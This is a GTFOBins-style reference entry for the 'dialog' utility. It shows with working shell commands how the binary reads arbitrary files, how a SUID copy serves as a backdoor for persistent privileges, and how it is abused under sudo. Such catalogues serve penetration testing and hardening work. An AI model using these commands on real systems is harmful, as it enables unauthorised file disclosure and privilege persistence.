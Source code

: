 # GTFOBin: dialog

The file is shown in an interactive TUI dialog, thus it is not suitable for binary/too big data.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
dialog --textbox "$LFILE" 0 0
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which dialog) .

LFILE=file_to_read
./dialog --textbox "$LFILE" 0 0
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo dialog --textbox "$LFILE" 0 0
```